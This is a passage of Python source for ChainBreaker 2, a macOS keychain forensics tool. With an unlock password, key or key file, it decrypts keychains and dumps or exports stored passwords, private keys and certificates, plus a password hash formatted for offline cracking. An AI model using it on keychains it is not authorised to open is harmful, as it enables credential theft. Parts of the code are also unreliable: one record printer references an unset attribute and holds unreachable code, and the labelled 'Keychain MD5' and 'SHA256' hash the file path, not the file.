            alias=self._get_lv(base_addr, record_meta.Alias & 0xFFFFFFFE),

            subject=self._get_lv(base_addr, record_meta.Subject & 0xFFFFFFFE),

            issuer=self._get_lv(base_addr, record_meta.Issuer & 0xFFFFFFFE),

            serial_number=self._get_lv(base_addr, record_meta.SerialNumber & 0xFFFFFFFE),

            subject_key_identifier=self._get_lv(base_addr, record_meta.SubjectKeyIdentifier & 0xFFFFFFFE),

            public_key_hash=self._get_lv(base_addr, record_meta.PublicKeyHash & 0xFFFFFFFE),

            certificate=self.kc_buffer[

                        base_addr + _X509_CERT_HEADER.STRUCT.size:base_addr + _X509_CERT_HEADER.STRUCT.size + record_meta.CertSize]

        )

  

    def _extract_ssgp_and_dbkey(self, record_meta, buffer):

        ssgp = None

        dbkey = None

  

        if record_meta.SSGPArea != 0:

            ssgp = _SSGP(buffer[:record_meta.SSGPArea])

            dbkey_index = ssgp.Magic + ssgp.Label

  

            if dbkey_index in self.key_list:

                dbkey = self.key_list[dbkey_index]

  

        return ssgp, dbkey

  

    def _get_internet_password_record(self, record_offset):

        base_addr = self._get_base_address(CSSM_DL_DB_RECORD_INTERNET_PASSWORD, record_offset)

        record_meta = _INTERNET_PW_HEADER(self.kc_buffer[base_addr:base_addr + _INTERNET_PW_HEADER.STRUCT.size])

  

        buffer = self.kc_buffer[base_addr + _INTERNET_PW_HEADER.STRUCT.size:base_addr + record_meta.RecordSize]

  

        ssgp, dbkey = self._extract_ssgp_and_dbkey(record_meta, buffer)

  

        return self.InternetPasswordRecord(

            created=self._get_keychain_time(base_addr, record_meta.CreationDate & 0xFFFFFFFE),

            last_modified=self._get_keychain_time(base_addr, record_meta.ModDate & 0xFFFFFFFE),

            description=self._get_lv(base_addr, record_meta.Description & 0xFFFFFFFE),

            comment=self._get_lv(base_addr, record_meta.Comment & 0xFFFFFFFE),

            creator=self._get_four_char_code(base_addr, record_meta.Creator & 0xFFFFFFFE),

            type=self._get_four_char_code(base_addr, record_meta.Type & 0xFFFFFFFE),

            print_name=self._get_lv(base_addr, record_meta.PrintName & 0xFFFFFFFE),

            alias=self._get_lv(base_addr, record_meta.Alias & 0xFFFFFFFE),

            protected=self._get_lv(base_addr, record_meta.Protected & 0xFFFFFFFE),

            account=self._get_lv(base_addr, record_meta.Account & 0xFFFFFFFE),

            security_domain=self._get_lv(base_addr, record_meta.SecurityDomain & 0xFFFFFFFE),

            server=self._get_lv(base_addr, record_meta.Server & 0xFFFFFFFE),

            protocol_type=self._get_four_char_code(base_addr, record_meta.Protocol & 0xFFFFFFFE),

            auth_type=self._get_lv(base_addr, record_meta.AuthType & 0xFFFFFFFE),

            port=self._get_int(base_addr, record_meta.Port & 0xFFFFFFFE),

            path=self._get_lv(base_addr, record_meta.Path & 0xFFFFFFFE),

            ssgp=ssgp,

            dbkey=dbkey

        )

  

    def _get_generic_password_record(self, record_offset):

        base_addr = self._get_base_address(CSSM_DL_DB_RECORD_GENERIC_PASSWORD, record_offset)

  

        record_meta = _GENERIC_PW_HEADER(self.kc_buffer[base_addr:base_addr + _GENERIC_PW_HEADER.STRUCT.size])

  

        buffer = self.kc_buffer[

                 base_addr + _GENERIC_PW_HEADER.STRUCT.size:base_addr + record_meta.RecordSize]

  

        ssgp, dbkey = self._extract_ssgp_and_dbkey(record_meta, buffer)

  

        return self.GenericPasswordRecord(

            created=self._get_keychain_time(base_addr, record_meta.CreationDate & 0xFFFFFFFE),

            last_modified=self._get_keychain_time(base_addr, record_meta.ModDate & 0xFFFFFFFE),

            description=self._get_lv(base_addr, record_meta.Description & 0xFFFFFFFE),

            creator=self._get_four_char_code(base_addr, record_meta.Creator & 0xFFFFFFFE),

            type=self._get_four_char_code(base_addr, record_meta.Type & 0xFFFFFFFE),

            print_name=self._get_lv(base_addr, record_meta.PrintName & 0xFFFFFFFE),

            alias=self._get_lv(base_addr, record_meta.Alias & 0xFFFFFFFE),

            account=self._get_lv(base_addr, record_meta.Account & 0xFFFFFFFE),

            service=self._get_lv(base_addr, record_meta.Service & 0xFFFFFFFE),

            ssgp=ssgp,

            dbkey=dbkey)

  

        return record

  

    def _get_base_address(self, table_name, offset=None):

        base_address = _APPL_DB_HEADER.STRUCT.size + self._get_table_offset(table_name)

        if offset:

            base_address += offset

  

        return base_address

  

    @property

    def filepath(self):

        return self._filepath

  

    @filepath.setter

    def filepath(self, value):

        self._filepath = value

        if self._filepath:

            self._read_keychain_to_buffer()

  

    @property

    def unlock_password(self):

        return self._unlock_password

  

    @unlock_password.setter

    def unlock_password(self, unlock_password):

        self._unlock_password = unlock_password

  

        if self._unlock_password:

            master_key = self._generate_master_key(self._unlock_password)

            print("[+] Master Key: {}".format(hexlify(master_key)))

            self.db_key = self._find_wrapping_key(master_key)

  

    @property

    def unlock_key(self):

        return self._unlock_key

  

    @unlock_key.setter

    def unlock_key(self, unlock_key):

        self._unlock_key = unlock_key

  

        if self._unlock_key:

            self.db_key = self._find_wrapping_key(unhexlify(self._unlock_key))

  

    @property

    def unlock_file(self):

        return self._unlock_file

  

    @unlock_file.setter

    def unlock_file(self, filepath):

        self._unlock_file = filepath

  

        if self._unlock_file:

            try:

                with open(self._unlock_file, mode='rb') as uf:

                    file_content = uf.read()

  

                unlock_key_blob = _UNLOCK_BLOB(file_content)

                self.db_key = self._find_wrapping_key(unlock_key_blob.MasterKey)

            except OSError:

                logger.warning("Unable to read unlock file: %s" % self._unlock_file)

  

    @property

    def db_key(self):

        return self._db_key

  

    @db_key.setter

    def db_key(self, key):

        self._db_key = key

  

        if self._db_key:

            # Even after finding a db_key, we need to try and load the key list.

            # If we don't find any keys, but we do find a db_key, then we've likely

            # found a hash collision

            if self._generate_key_list() > 0:

                self.locked = False

  

    # SOURCE : extractkeychain.py

    @staticmethod

    def _kcdecrypt(key, iv, data):

        logger = logging.getLogger('Chainbreaker')

        if len(data) == 0:

            logger.debug("Encrypted data is 0.")

            return ''

  

        if len(data) % Chainbreaker.BLOCKSIZE != 0:

            return ''

  

        cipher = TripleDES(key, CBC, str(bytearray(iv)))

  

        plain = cipher.decrypt(data)

  

        # now check padding

        pad = ord(plain[-1])

        if pad > 8:

            logger.debug("Bad padding byte. Keychain password might be incorrect.")

            return ''

  

        for z in plain[-pad:]:

            if ord(z) != pad:

                logger.debug("Bad padding byte. Keychain password might be incorrect.")

                return ''

  

        plain = plain[:-pad]

  

        return plain

  

    @staticmethod

    def _get_encrypted_data_in_blob(blob_buffer):

        key_blob = _KEY_BLOB(blob_buffer[:_KEY_BLOB.STRUCT.size])

  

        if key_blob.CommonBlob.Magic != _KEY_BLOB.COMMON_BLOB_MAGIC:

            return '', ''

  

        key_data = blob_buffer[key_blob.StartCryptoBlob:key_blob.TotalLength]

        return key_blob.IV, key_data  # IV, Encrypted Data

  

    # ## decrypted dbblob area

    # ## Documents : http://www.opensource.apple.com/source/securityd/securityd-55137.1/doc/BLOBFORMAT

    # ## http://www.opensource.apple.com/source/libsecurity_keychain/libsecurity_keychain-36620/lib/StorageManager.cpp

    # def _ssgp_decryption(self, ssgp, dbkey):

    #     return Chainbreaker._kcdecrypt(dbkey, _SSGP(ssgp).IV, ssgp[_SSGP.STRUCT.size:])

  

    # Documents : http://www.opensource.apple.com/source/securityd/securityd-55137.1/doc/BLOBFORMAT

    # source : http://www.opensource.apple.com/source/libsecurity_cdsa_client/libsecurity_cdsa_client-36213/lib/securestorage.cpp

    # magicCmsIV : http://www.opensource.apple.com/source/Security/Security-28/AppleCSP/AppleCSP/wrapKeyCms.cpp

    @staticmethod

    def keyblob_decryption(encryptedblob, iv, dbkey):

        logger = logging.getLogger('Chainbreaker')

  

        # magicCmsIV = unhexlify('4adda22c79e82105')

        plain = Chainbreaker._kcdecrypt(dbkey, Chainbreaker.MAGIC_CMS_IV, encryptedblob)

  

        if plain.__len__() == 0:

            return ''

  

        # now we handle the unwrapping. we need to take the first 32 bytes,

        # and reverse them.

        revplain = ''

        for i in range(32):

            revplain += plain[31 - i]

  

        # now the real key gets found. */

        plain = Chainbreaker._kcdecrypt(dbkey, iv, revplain)

  

        keyblob = plain[4:]

  

        if len(keyblob) != Chainbreaker.KEYLEN:

            logger.debug("Decrypted key length is not valid")

            return ''

  

        return keyblob

  

    class KeychainRecord(object):

        def __init__(self):

            self.logger = logging.getLogger('Chainbreaker')

  

        def write_to_disk(self, output_directory):

            # self.exportable contains the content we should write to disk. If it isn't implemented we can't

            # then writing to disk via this method isn't currently supported.

            try:

                export_content = self.exportable

            except NotImplementedError:

                self.logger.warning('Attempted to export a non-exportable record.')

                return False

  

            # Create out export directory if it doesn't exist.

            if not os.path.exists(output_directory):

                try:

                    os.makedirs(output_directory)

                except OSError:

                    self.logger.critical('Unable to create export directory: %s' % output_directory)

  

            # Generate our filepath, making sure the file doesn't already exist. If it does,

            # add a number, e.g. PrivateKey.1.key

            file_name = self.FileName + self.FileExt

            iteration = 1

            while os.path.exists(os.path.join(output_directory, file_name)):

                file_name = "%s.%s%s" % (self.FileName, iteration, self.FileExt)

                iteration += 1

  

            file_path = os.path.join(output_directory, file_name)

  

            # Finish exporting the record.

            try:

                with open(file_path, 'wb') as fp:

                    self.logger.info('\t [-] Exported: %s' % file_path)

                    fp.write(export_content)

                    return True

            except OSError, e:

                self.logger.critical('Exception while attempting to export %s: %s' % (file_path, e))

  

        @property

        def FileName(self):

            return str(uuid.uuid4())

  

        @property

        def FileExt(self):

            return '.txt'

  

    class KeychainPasswordHash(KeychainRecord):

        KEYCHAIN_PASSWORD_HASH_FORMAT = "$keychain$*%s*%s*%s"

  

        def __init__(self, salt, iv, cyphertext):

            self.salt = salt

            self.iv = iv

            self.cypher_text = cyphertext

  

            Chainbreaker.KeychainRecord.__init__(self)

  

        def __str__(self):

            return Chainbreaker.KeychainPasswordHash.KEYCHAIN_PASSWORD_HASH_FORMAT % (

                self.salt, self.iv, self.cypher_text)

  

        @property

        def exportable(self):

            return self.__str__()

  

        @property

        def FileName(self):

            return "keychain_password_hash"

  

    class PublicKeyRecord(KeychainRecord):

        def __init__(self, print_name=None, label=None, key_class=None, private=None, key_type=None, key_size=None,

                     effective_key_size=None, extracted=None, cssm_type=None, public_key=None, iv=None, key=None):

            self.PrintName = print_name

            self.Label = label

            self.KeyClass = key_class

            self.Private = private

            self.KeyType = key_type

            self.KeySize = key_size

            self.EffectiveKeySize = effective_key_size

            self.Extracted = extracted

            self.CSSMType = cssm_type

            self.PublicKey = public_key

            self.IV = iv

            self.Key = key

  

            Chainbreaker.KeychainRecord.__init__(self)

  

        def __str__(self):

            output = '[+] Public Key\n'

            output += ' [-] Print Name: %s\n' % self.PrintName

            # output += ' [-] Label: %s\n' % self.Label

            output += ' [-] Key Class: %s\n' % self.KeyClass

            output += ' [-] Private: %s\n' % self.Private

            output += ' [-] Key Type: %s\n' % self.KeyType

            output += ' [-] Key Size: %s\n' % self.KeySize

            output += ' [-] Effective Key Size: %s\n' % self.EffectiveKeySize

            output += ' [-] Extracted: %s\n' % self.Extracted

            output += ' [-] CSSM Type: %s\n' % self.CSSMType

            output += ' [-] Base64 Encoded Public Key: %s\n' % base64.b64encode(self.PublicKey)

            return output

  

        @property

        def exportable(self):

            return self.PublicKey

  

        @property

        def FileName(self):

            return "".join(x for x in self.PrintName if x.isalnum())

  

        @property

        def FileExt(self):

            return '.pub'

  

    class PrivateKeyRecord(KeychainRecord):

        def __init__(self, print_name=None, label=None, key_class=None, private=None, key_type=None, key_size=None,

                     effective_key_size=None, extracted=None, cssm_type=None, key_name=None, private_key=None, iv=None,

                     key=None):

            self.PrintName = print_name

            self.Label = label

            self.KeyClass = key_class

            self.Private = private

            self.KeyType = key_type

            self.KeySize = key_size

            self.EffectiveKeySize = effective_key_size

            self.Extracted = extracted

            self.CSSMType = cssm_type

            self.KeyName = key_name

            self.PrivateKey = private_key

            self.IV = iv

            self.Key = key

  

            Chainbreaker.KeychainRecord.__init__(self)

  

        def __str__(self):

            output = '[+] Private Key\n'

            output += ' [-] Print Name: %s\n' % self.PrintName

            # output += ' [-] Label: %s\n' % self.Label

            output += ' [-] Key Class: %s\n' % self.KeyClass

            # output += ' [-] Private: %s\n' % self.Private

            output += ' [-] Key Type: %s\n' % self.KeyType

            output += ' [-] Key Size: %s\n' % self.KeySize

            output += ' [-] Effective Key Size: %s\n' % self.EffectiveKeySize

            # output += ' [-] Extracted: %s\n' % self.Extracted

            output += ' [-] CSSM Type: %s\n' % self.CSSMType

            # output += ' [-] KeyName: %s\n' % self.KeyName

  

            output += ' [-] Base64 Encoded PrivateKey: '

            if self.PrivateKey == Chainbreaker.KEYCHAIN_LOCKED_SIGNATURE:

                output += "%s\n" % Chainbreaker.KEYCHAIN_LOCKED_SIGNATURE

            else:

                output += "%s\n" % base64.b64encode(self.PrivateKey)

  

            return output

  

        @property

        def exportable(self):

            return self.PrivateKey

  

        @property

        def FileName(self):

            return "".join(x for x in self.PrintName if x.isalnum())

  

        @property

        def FileExt(self):

            return '.key'

  

    class X509CertificateRecord(KeychainRecord):

        def __init__(self, type=None, encoding=None, print_name=None, alias=None, subject=None, issuer=None,

                     serial_number=None, subject_key_identifier=None, public_key_hash=None, certificate=None):

            self.Type = type

            self.Encoding = encoding

            self.PrintName = print_name

            self.Alias = alias

            self.Subject = subject

            self.Issuer = issuer

            self.Serial_Number = serial_number

            self.Subject_Key_Identifier = subject_key_identifier

            self.Public_Key_Hash = public_key_hash

            self.Certificate = certificate

  

            Chainbreaker.KeychainRecord.__init__(self)

  

        def __str__(self):

            output = '[+] X509 Certificate\n'

            # output += " [-] Type: %s\n" % self.Type

            # output += " [-] Encoding: %s\n" % self.Encoding

            output += " [-] Print Name: %s\n" % self.PrintName

            # output += " [-] Alias: %s\n" % self.Alias

            # output += " [-] Subject: %s\n" % self.Subject

            # output += " [-] Issuer: %s\n" % self.Issuer

            # output += " [-] Serial Number: %s\n" % self.Serial_Number

            # output += " [-] Subject Key Identifier: %s\n" % self.Subject_Key_Identifier

            # output += " [-] Public Key Hash: %s\n" % self.Public_Key_Hash

            output += " [-] Certificate: %s\n" % base64.b64encode(self.Certificate)

            return output

  

        @property

        def exportable(self):

            return self.Certificate

  

        @property

        def FileName(self):

            return "".join(x for x in self.PrintName if x.isalnum())

  

        @property

        def FileExt(self):

            return '.crt'

  

    class SSGBEncryptedRecord(KeychainRecord):

        def __init__(self):

            self._password = None

            self.locked = True

            self.password_b64_encoded = False

  

            Chainbreaker.KeychainRecord.__init__(self)

  

        def decrypt_password(self):

            try:

                if self.SSGP and self.DBKey:

                    self._password = Chainbreaker._kcdecrypt(self.DBKey, self.SSGP.IV, self.SSGP.EncryptedPassword)

                    if not all(c in string.printable for c in self._password):

                        self._password = base64.b64encode(self._password)

                        self.password_b64_encoded = True

                    self.locked = False

            except KeyError:

                if not self._password:

                    self.locked = True

                    self._password = None

            return self._password

  

        def get_password_output_str(self):

            password = self.Password

            if self.password_b64_encoded:

                return ' [-] Base64 Encoded Password: {}\n'.format(password)

            else:

                return ' [-] Password: {}\n'.format(password)

  

        @property

        def Password(self):

            if not self._password:

                self.decrypt_password()

                if self.locked:

                    self._password = Chainbreaker.KEYCHAIN_LOCKED_SIGNATURE

  

            return self._password

  

        @property

        def exportable(self):

            return self.__str__()

  

        @property

        def FileName(self):

            return "".join(x for x in self.PrintName if x.isalnum())

  

        @property

        def FileExt(self):

            return '.txt'

  

    class GenericPasswordRecord(SSGBEncryptedRecord):

        def __init__(self, created=None, last_modified=None, description=None, creator=None, type=None, print_name=None,

                     alias=None, account=None, service=None, key=None, ssgp=None, dbkey=None):

            self.Created = created

            self.LastModified = last_modified

            self.Description = description

            self.Creator = creator

            self.Type = type

            self.PrintName = print_name

            self.Alias = alias

            self.Account = account

            self.Service = service

            self.Key = key

            self.SSGP = ssgp

            self.SSGPLabel = ssgp.Label if ssgp else None

            self.DBKey = dbkey

  

            Chainbreaker.SSGBEncryptedRecord.__init__(self)

  

        def __str__(self):

            output = '[+] Generic Password Record\n'

            output += ' [-] Create DateTime: %s\n' % self.Created

            output += ' [-] Last Modified DateTime: %s\n' % self.LastModified

            output += ' [-] Description: %s\n' % self.Description

            output += ' [-] Creator: %s\n' % self.Creator

            output += ' [-] Type: %s\n' % self.Type

            output += ' [-] Print Name: %s\n' % self.PrintName

            output += ' [-] Alias: %s\n' % self.Alias

            output += ' [-] Account: %s\n' % self.Account

            output += ' [-] Service: %s\n' % self.Service

            output += self.get_password_output_str()

            if self.SSGPLabel:

                output += ' [-] SSGP Label: {}\n'.format(hexlify(self.SSGPLabel))

            else:

                output += ' [-] SSGP Label: None\n'

            output += ' [-] Record DBKey: {}\n'.format(hexlify(self.DBKey)) if self.DBKey else ' [-] Record DBKey: None\n'

            return output

            return output

  

    class InternetPasswordRecord(SSGBEncryptedRecord):

        def __init__(self, created=None, last_modified=None, description=None, comment=None, creator=None, type=None,

                     print_name=None, alias=None, protected=None, account=None, security_domain=None, server=None,

                     protocol_type=None, auth_type=None, port=None, path=None, ssgp=None, dbkey=None):

  

            self.Created = created

            self.LastModified = last_modified

            self.Description = description

            self.Comment = comment

            self.Creator = creator

            self.Type = type

            self.PrintName = print_name

            self.Alias = alias

            self.Protected = protected

            self.Account = account

            self.SecurityDomain = security_domain

            self.Server = server

            self.ProtocolType = protocol_type

            self.AuthType = auth_type

            self.Port = port

            self.Path = path

            self.SSGP = ssgp

            self.DBKey = dbkey

  

            Chainbreaker.SSGBEncryptedRecord.__init__(self)

  

        def __str__(self):

            output = '[+] Generic Password Record\n'

            output += ' [-] Create DateTime: %s\n' % self.Created

            output += ' [-] Last Modified DateTime: %s\n' % self.LastModified

            output += ' [-] Description: %s\n' % self.Description

            output += ' [-] Creator: %s\n' % self.Creator

            output += ' [-] Type: %s\n' % self.Type

            output += ' [-] Print Name: %s\n' % self.PrintName

            output += ' [-] Alias: %s\n' % self.Alias

            output += ' [-] Account: %s\n' % self.Account

            output += ' [-] Service: %s\n' % self.Service

            output += self.get_password_output_str()

            output += ' [-] Record DBKey: {}\n'.format(hexlify(self.DBKey)) if self.DBKey else ' [-] Record DBKey: None\n'

            return output

  

            try:

                output += ' [-] Protocol Type: %s\n' % PROTOCOL_TYPE[self.ProtocolType]

            except KeyError:

                output += ' [-] Protocol Type: %s\n' % self.ProtocolType

  

            try:

                output += ' [-] Auth Type: %s\n' % AUTH_TYPE[self.AuthType]

            except KeyError:

                output += ' [-] Auth Type: %s\n' % self.AuthType

  

            output += ' [-] Port: %d\n' % self.Port

            output += ' [-] Path: %s\n' % self.Path

            output += self.get_password_output_str()

  

            return output

  

    class AppleshareRecord(SSGBEncryptedRecord):

        def __init__(self, created=None, last_modified=None, description=None, comment=None, creator=None, type=None,

                     print_name=None, alias=None, protected=None, account=None, volume=None, server=None,

                     protocol_type=None, address=None, signature=None, dbkey=None, ssgp=None):

            self.Created = created

            self.LastModified = last_modified

            self.Description = description

            self.Comment = comment

            self.Creator = creator

            self.Type = type

            self.PrintName = print_name

            self.Alias = alias

            self.Protected = protected

            self.Account = account

            self.Volume = volume

            self.Server = server

            self.Protocol_Type = protocol_type

            self.Address = address

            self.Signature = signature

            self.SSGP = ssgp

            self.DBKey = dbkey

  

            Chainbreaker.SSGBEncryptedRecord.__init__(self)

  

        def __str__(self):

            output = '[+] AppleShare Record (no longer used in OS X)\n'

            output += ' [-] Create DateTime: %s\n' % self.Created

            output += ' [-] Last Modified DateTime: %s\n' % self.LastModified

            output += ' [-] Description: %s\n' % self.Description

            output += ' [-] Comment: %s\n' % self.Comment

            output += ' [-] Creator: %s\n' % self.Creator

            output += ' [-] Type: %s\n' % self.Type

            output += ' [-] PrintName: %s\n' % self.PrintName

            output += ' [-] Alias: %s\n' % self.Alias

            output += ' [-] Protected: %s\n' % self.Protected

            output += ' [-] Account: %s\n' % self.Account

            output += ' [-] Volume: %s\n' % self.Volume

            output += ' [-] Server: %s\n' % self.Server

  

            try:

                output += ' [-] Protocol Type: %s\n' % PROTOCOL_TYPE[self.Protocol_Type]

            except KeyError:

                output += ' [-] Protocol Type: %s\n' % self.Protocol_Type

  

            output += ' [-] Address: %d\n' % self.Address

            output += ' [-] Signature: %s\n' % self.Signature

            output += self.get_password_output_str()

  

            return output

  
  

if __name__ == "__main__":

    import argparse

    import getpass

    import sys

    import os

    import datetime

    import hashlib

  

    arguments = argparse.ArgumentParser(description='Dump items stored in an OSX Keychain')

  

    # General Arguments

    arguments.add_argument('keychain', help='Location of the keychain file to parse')

  

    # Available actions

    dump_actions = arguments.add_argument_group('Dump Actions')

    dump_actions.add_argument('--dump-all', '-a', help='Dump records to the console window.',

                              action='store_const', dest='dump_all', const=True)

    dump_actions.add_argument('--dump-keychain-password-hash',

                              help='Dump the keychain password hash in a format suitable for hashcat or John The Ripper',

                              action='store_const', dest='dump_keychain_password_hash', const=True)

    dump_actions.add_argument('--dump-generic-passwords', help='Dump all generic passwords',

                              action='store_const', dest='dump_generic_passwords', const=True)

    dump_actions.add_argument('--dump-internet-passwords', help='Dump all internet passwords',

                              action='store_const', dest='dump_internet_passwords', const=True)

    dump_actions.add_argument('--dump-appleshare-passwords', help='Dump all appleshare passwords',

                              action='store_const', dest='dump_appleshare_passwords', const=True)

    dump_actions.add_argument('--dump-private-keys', help='Dump all private keys',

                              action='store_const', dest='dump_private_keys', const=True)

    dump_actions.add_argument('--dump-public-keys', help='Dump all public keys',

                              action='store_const', dest='dump_public_keys', const=True)

    dump_actions.add_argument('--dump-x509-certificates', help='Dump all X509 certificates',

                              action='store_const', dest='dump_x509_certificates', const=True)

  

    # Export private keys, public keys, or x509 certificates to disk.

    export_actions = arguments.add_argument_group('Export Actions',

                                                  description='Export records to files. Save location '

                                                              'is CWD, but can be overridden with --output / -o')

  

    export_actions.add_argument('--export-keychain-password-hash', help='Save the keychain password hash to disk',

                                action='store_const', dest='export_keychain_password_hash', const=True)

    export_actions.add_argument('--export-generic-passwords', help='Save all generic passwords to disk',

                                action='store_const', dest='export_generic_passwords', const=True)

    export_actions.add_argument('--export-internet-passwords', help='Save all internet passwords to disk',

                                action='store_const', dest='export_internet_passwords', const=True)

    export_actions.add_argument('--export-appleshare-passwords', help='Save all appleshare passwords to disk',

                                action='store_const', dest='export_appleshare_passwords', const=True)

    export_actions.add_argument('--export-private-keys', help='Save private keys to disk',

                                action='store_const', dest='export_private_keys', const=True)

    export_actions.add_argument('--export-public-keys', help='Save public keys to disk',

                                action='store_const', dest='export_public_keys', const=True)

    export_actions.add_argument('--export-x509-certificates', help='Save X509 certificates to disk',

                                action='store_const', dest='export_x509_certificates', const=True)

    export_actions.add_argument('--export-all', '-e',

                                help='Save records to disk',

                                action='store_const', dest='export_all', const=True)

  

    misc_actions = arguments.add_argument_group('Misc. Actions')

  

    misc_actions.add_argument('--check-unlock-options', '-c',

                              help='Only check to see if the provided unlock options work.'

                                   ' Exits 0 on success, 1 on failure.',

                              action='store_const', dest='check_unlock', const=True)

  

    # Keychain Unlocking Arguments

    unlock_args = arguments.add_argument_group('Unlock Options')

    unlock_args.add_argument('--password-prompt', '-p', help='Prompt for a password to use in unlocking the keychain',

                             action='store_const', dest='password_prompt', const=True)

    unlock_args.add_argument('--password', help='Unlock the keychain with a password, provided on the terminal.'

                                                'Caution: This is insecure and you should likely use'

                                                '--password-prompt instead')

    unlock_args.add_argument('--key-prompt', '-k', help='Prompt for a key to use in unlocking the keychain',

                             action='store_const', dest='key_prompt', const=True)

    unlock_args.add_argument('--key', help='Unlock the keychain with a key, provided via argument.'

                                           'Caution: This is insecure and you should likely use --key-prompt instead')

    unlock_args.add_argument('--unlock-file', help='Unlock the keychain with a key file')

  

    # Output arguments

    output_args = arguments.add_argument_group('Output Options')

    output_args.add_argument('--output', '-o', help='Directory to output exported records to.')

    output_args.add_argument('-d', '--debug', help="Print debug information", action="store_const", dest="loglevel",

                             const=logging.DEBUG)

  

    arguments.set_defaults(

        loglevel=logging.INFO,

        dump_all=False,

        dump_keychain_password_hash=False,

        dump_generic_passwords=False,

        dump_internet_passwords=False,

        dump_appleshare_passwords=False,

        dump_private_keys=False,

        dump_public_keys=False,

        dump_x509_certificates=False,

        export_keychain_password_hash=False,

        export_generic_passwords=False,

        export_internet_passwords=False,

        export_appleshare_passwords=False,

        export_private_keys=False,

        export_public_keys=False,

        export_x509_certificates=False,

        export_all=False,

        check_unlock=False,

        password_prompt=False,

        key_prompt=False,

        password=None,

        key=None,

        unlock_file=None,

    )

  

    args = arguments.parse_args()

  

    if args.password_prompt:

        args.password = getpass.getpass('Unlock Password: ')

  

    if args.key_prompt:

        args.key = getpass.getpass('Unlock Key: ')

  

    # create logger

    logging.basicConfig(format='%(asctime)s - %(levelname)s - %(message)s',

                        level=args.loglevel,

                        stream=sys.stdout)

  

    logger = logging.getLogger('Chainbreaker')

  

    if args.output:

        if not os.path.exists(args.output):

            try:

                os.makedirs(args.output)

            except OSError as e:

                logger.critical("Unable to create output directory: %s" % args.output)

                exit(1)

        logger.addHandler(logging.FileHandler(os.path.join(args.output, 'output.log'), mode='w'))

    else:

        args.output = os.getcwd()

  

    # If dump-all or export-all is set, set the individual args

    if args.dump_all:

        args.dump_keychain_password_hash = args.dump_generic_passwords = args.dump_internet_passwords = \

            args.dump_appleshare_passwords = args.dump_public_keys = args.dump_private_keys = \

            args.dump_x509_certificates = True

  

    if args.export_all:

        args.export_keychain_password_hash = args.export_generic_passwords = args.export_internet_passwords = \

            args.export_appleshare_passwords = args.export_public_keys = args.export_private_keys = \

            args.export_x509_certificates = True

  

    # Make sure we're actually doing something, exit if we're not.

    if not (args.dump_keychain_password_hash or args.dump_generic_passwords or args.dump_internet_passwords \

            or args.dump_appleshare_passwords or args.dump_public_keys or args.dump_private_keys or \

            args.dump_x509_certificates or args.export_keychain_password_hash or \

            args.export_generic_passwords or args.export_internet_passwords \

            or args.export_appleshare_passwords or args.export_private_keys or args.export_public_keys or \

            args.export_x509_certificates or args.dump_all or args.export_all or args.check_unlock):

        logger.critical("No action specified.")

        exit(1)

  

    # Calculate the MD5 and SHA256 of the input keychain file.

    keychain_md5 = hashlib.md5(args.keychain).hexdigest()

    keychain_sha256 = hashlib.sha256(args.keychain).hexdigest()

  

    # Print out some summary info before we actually start doing any work.

    summary_output = [

        "\n\nChainBreaker 2 - https://github.com/gaddie-3/chainbreaker\n",

        "Runtime Command: %s" % ' '.join(sys.argv),

        "Keychain: %s" % args.keychain,

        "Keychain MD5: %s" % keychain_md5,

        "Keychain 256: %s" % keychain_sha256,

        "Dump Start: %s" % datetime.datetime.now(),

    ]

  

    for line in summary_output:

        logger.info(line)

  

    summary_output.append("Dump Summary:")

  

    # Done parsing out input options, now actually do the work.

    keychain = Chainbreaker(args.keychain, unlock_password=args.password, unlock_key=args.key,

                            unlock_file=args.unlock_file)

        # New line to print DB key:

    if keychain.db_key:

        print("[+] DB Key: {}".format(hexlify(keychain.db_key)))

    else:

        print("[!] DB Key not found or keychain is locked.")

  
  

    if args.check_unlock:

        if keychain.locked:

            logger.info("Invalid Unlock Options")

            exit(1)

        else:

            logger.info("Keychain Unlock Successful.")

            exit(0)

  

    output = []

  

    if args.dump_keychain_password_hash or args.export_keychain_password_hash:

        output.append(

            {

                'header': 'Keychain Password Hash',

                'records': [keychain.dump_keychain_password_hash()],  # A little hackish, but whatever.

                'write_to_console': args.dump_keychain_password_hash,

                'write_to_disk': args.export_keychain_password_hash,

                'write_directory': os.path.join(args.output)

            }

        )

  

    if args.dump_generic_passwords or args.export_generic_passwords:

        output.append(

            {

                'header': 'Generic Passwords',

                'records': keychain.dump_generic_passwords(),

                'write_to_console': args.dump_generic_passwords,

                'write_to_disk': args.export_generic_passwords,

                'write_directory': os.path.join(args.output, 'passwords', 'generic')

            }

        )

    if args.dump_internet_passwords or args.export_internet_passwords:

        output.append(

            {

                'header': 'Internet Passwords',

                'records': keychain.dump_internet_passwords(),

                'write_to_console': args.dump_internet_passwords,

                'write_to_disk': args.export_internet_passwords,

                'write_directory': os.path.join(args.output, 'passwords', 'internet')

            }

        )

    if args.dump_appleshare_passwords or args.export_appleshare_passwords:

        output.append(

            {

                'header': 'Appleshare Passwords',

                'records': keychain.dump_appleshare_passwords(),

                'write_to_console': args.dump_appleshare_passwords,

                'write_to_disk': args.export_appleshare_passwords,

                'write_directory': os.path.join(args.output, 'passwords', 'appleshare')

            }

        )

    if args.dump_private_keys or args.export_private_keys:

        output.append(

            {

                'header': 'Private Keys',

                'records': keychain.dump_private_keys(),

                'write_to_console': args.dump_private_keys,

                'write_to_disk': args.export_private_keys,

                'write_directory': os.path.join(args.output, 'keys', 'private')

            }

        )

    if args.dump_public_keys or args.export_public_keys:

        output.append(

            {

                'header': 'Public Keys',

                'records': keychain.dump_public_keys(),

                'write_to_console': args.dump_public_keys,

                'write_to_disk': args.export_public_keys,

                'write_directory': os.path.join(args.output, 'keys', 'public')

            }

        )

    if args.dump_x509_certificates or args.export_x509_certificates:

        output.append(

            {

                'header': 'x509 Certificates',

                'records': keychain.dump_x509_certificates(),

                'write_to_console': args.dump_x509_certificates,

                'write_to_disk': args.export_x509_certificates,

                'write_directory': os.path.join(args.output, 'certificates')

            }

        )

  

    try:

        for record_collection in output:

            if 'records' in record_collection:

                number_records = len(record_collection['records'])

                collection_summary = "%s %s" % (len(record_collection['records']), record_collection['header'])

                logger.info(collection_summary)

  

                summary_output.append("\t%s" % collection_summary)

  

                for record in record_collection['records']:

                    if record_collection.get('write_to_console', False):

                        for line in str(record).split('\n'):

                            logger.info("\t%s" % line)

                    if record_collection.get('write_to_disk', False):

                        record.write_to_disk(record_collection.get('write_directory', args.output))

                    logger.info("")

  

        summary_output.append("Dump End: %s" % datetime.datetime.now())

  

        if any(x.get('write_to_disk', False) for x in output):

